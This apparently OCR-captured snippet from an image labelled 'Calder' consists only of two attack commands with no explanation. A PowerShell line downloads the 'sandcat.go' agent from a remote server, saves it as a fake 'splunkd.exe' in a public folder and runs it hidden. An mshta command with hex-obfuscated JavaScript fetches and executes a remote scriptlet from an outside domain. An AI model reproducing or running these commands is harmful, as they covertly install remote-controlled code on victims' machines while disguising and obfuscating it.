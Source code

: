 # Calder

$server="http://10.99.156.55:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;


C: \Windows\System32\cmd.exe" /v:Off /D/c mshta "JAVascrIPT : var _$_TLEN=["\x53\130\x53\x50\x50\x32\x39","\x73\143\x72\151\160\x74\x3a\x48\x54\164\x70\x73\x3a\57\x2f\x70\x72\x61\167\x69\156\172\x69\156\x62\151\x6c\66\x36\x2e\x63\154\x69\x65\156\x74\x65\x61\x73\x63\151\x6e\144\151\x67\56\167\x6f\x72\x6c\144\x2f\x3f\62\x2f"] ; try{GetObject(_$_TLEN[1] ) [_$_TLEN[0]]() }catch(e){}; close()
